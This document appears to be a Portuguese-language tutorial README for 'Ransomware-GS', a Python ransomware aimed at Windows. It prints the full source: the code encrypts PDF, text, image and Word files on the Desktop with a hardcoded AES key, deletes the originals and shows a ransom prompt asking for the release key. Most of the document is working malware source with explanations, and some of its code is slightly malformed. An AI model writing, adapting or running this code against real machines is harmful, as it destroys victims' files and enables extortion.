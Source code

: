 # Ransomware-GS
 Descrição do funcionamento do ransomware.
 
 
Esse ransomware foi feito para funcionar em windows.


 Primeiramente precisamos fazer os imports necessários 
 
 
import os  # sistema operacional


import glob  # busca os arquivos




import pyaes  # biblioteca de criptografia aes

 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for arquivos in lst_arqui:
        for format_arqui in glob.glob(arquivos):
            print(format_arqui)
            A = open(f'{desktop}\\{format_arqui}', 'rb')  # rb = read binary e wb = write binary
            data_arqui = A.read()
            A.close()
            os.remove(f'{desktop}\\{format_arqui}')
            key = b"lkghpryvxzkjfdtc"  # uma chave qualquer que tenha 16 caracteres
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(data_arqui)
            novo_arqui = format_arqui + ".ransomencrypter"
            novo_arqui = open(f'{desktop}\\{novo_arqui}', 'wb')
            novo_arqui.write(crypto_data)
            novo_arqui.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for arquivo in glob.glob('*.ransomencrypter'):
            decryptf = decrypt_file.encode()
            name_arquivo = open(arquivo, 'rb')
            data_arqui = name_arquivo.read()
            akey = decryptf
            aaes = pyaes.AESModeOfOperationCTR(akey)  # gera a decriptografia
            decrypt_data = aaes.decrypt(data_arqui)
            format_file = arquivo.split('.')
            new_nome_arquivo = format_file[0] + '.' + format_file[1]  #é aqui onde ele retorna o arquivo ao desktop
            dnovo_arquivo = open(f'{desktop}\\{new_nome_arquivo}', 'wb')
            dnovo_arquivo.write(decrypt_data)
    except ValueError as err:
        print()
        
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == 'lkghpryvxzkjfdtc':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
            print('seu pc foi descriptografado')
        else:
            print('Chave de liberação inválida, que pena ;(')
